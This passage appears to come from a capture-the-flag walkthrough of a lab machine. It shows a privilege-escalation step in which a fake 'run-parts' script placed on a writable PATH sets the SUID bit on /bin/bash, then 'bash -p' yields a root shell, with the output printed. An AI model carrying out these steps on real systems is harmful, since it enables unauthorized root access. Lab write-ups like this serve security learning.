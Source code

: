 ### Exploitation

Creating the malicious binary:

```bash
echo -e '#\!/bin/bash\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
```

Disconnect and reconnect via SSH:

```bash
exit
ssh jkr@10.10.10.138
```

Verification:

```bash
ls -l /bin/bash
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-green-700 dark:text-green-300">
        -rwsr-xr-x 1 root root 1099016 ... /bin/bash
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        SUID bit is now set on /bin/bash\!
    </p>
</div>

## 👑 Phase 8 — Escalating to Root

### Execution with Preserved Privileges

Launching bash with `-p` option (preserve privileges):

```bash
/bin/bash -p
id
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(jkr) gid=1000(jkr) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev),1000(jkr)
    </div>
</div>

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-xl">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        ROOT SHELL OBTAINED\! euid=0(root) achieved.
    </p>
</div>
